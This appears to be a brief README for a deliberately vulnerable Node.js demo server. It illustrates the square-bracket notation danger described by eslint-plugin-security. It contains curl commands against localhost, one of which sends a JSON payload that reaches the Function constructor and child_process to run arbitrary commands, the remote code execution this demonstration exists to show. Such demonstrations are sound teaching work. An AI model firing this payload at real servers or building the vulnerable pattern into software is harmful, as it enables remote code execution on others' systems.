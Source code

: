 Example of vulnerable server based on [eslint plugin security](https://github.com/nodesecurity/eslint-plugin-security/blob/master/docs/the-dangers-of-square-bracket-notation.md)


To test, start server:
```bash
$ node index.js
```

Then, call the command to execute the RCE:
```bash
$ curl http://localhost:3000/api/user -H 'Content-Type: application/json' --data '["constructor", "var require = global.require || global.process.mainModule.constructor._load;require(\"child_process\").exec(arguments[0], console.log)"]'
$ curl http://localhost:3000/api/user -H 'Content-Type: application/json' --data '["anyVal", "date"]'
```

